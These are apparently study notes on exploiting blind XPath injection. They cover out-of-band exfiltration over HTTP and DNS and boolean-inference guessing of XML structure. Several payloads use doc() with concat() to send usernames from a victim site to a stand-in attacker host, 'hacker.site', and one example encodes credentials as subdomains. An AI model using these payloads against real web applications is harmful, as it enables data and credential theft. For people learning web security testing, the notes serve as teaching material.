 ## HTTP Channel
We can trick the victim site into sending what we cant read to our controlled web server.

Example using the doc():
```js
doc(concat("http://hacker.site/oob/", RESULTS_WE_WANT))
doc(concat("http://hacker.site/oob/", /Employees/Employee[1]/username))
```

The URI has its rules and we need to encode out strings in order to make the format suitable For sending from the victim site to the attack site.

**encode-for-uri** function:
```js
doc(concat("http://hacker.site/oob/", encode-for-uri(/Employees/Employee[1]/username)))
```

Setting up a listening HTTP server is quite simple; however, if we are lazy, then we can use use 'xxeserve' or 'xcat'

→ xxeserve = https://github.com/joernchen/xxeserve

→ xcat     = http://xcat.readthedocs.org/


XCat is a command line tool that aides in the exploitation of Blind XPath injection flaws. Some features:
```
- Advanced data postback through HTTP
- Arbitrarily read XML/text files on the web server via the **doc() function** and crafted SYSTEM entities (XXE)
```

### DNS Channel
Often the HTTP channel is blocked by firewall or other filters

- Usually even when we cant exfiltrate via HTTP, outgoing DNS queries are permitted access to arbitrary hosts.
- So, instead of sending data as GET parameters, we use a controlled name server and force the victim site to resolve our domain with they juicy data as subdomain values, like:

→ http://username.password.hacker.site

- The length of any one label is limited to between 1 and 63 octets and globally, a full domain name, is limited to 255 octets(including the separators)

> Since DNS primarily uses UDP, its not guaranteed that requests arrive at the attackers server. Think about network congestion or all the other possibilities that might cause data to get lost.



## Note from Video
```js
... and count(/*[1]/*)=1
# find the tree of the XML file

... and substring(name(/*[1],1,1)='a'
# guess the names

in 2.0 we can use:
... and string-to-codepoints(/*[1],1,1) > 100

# in this case codepoints.net can help us translate the values to strings
```

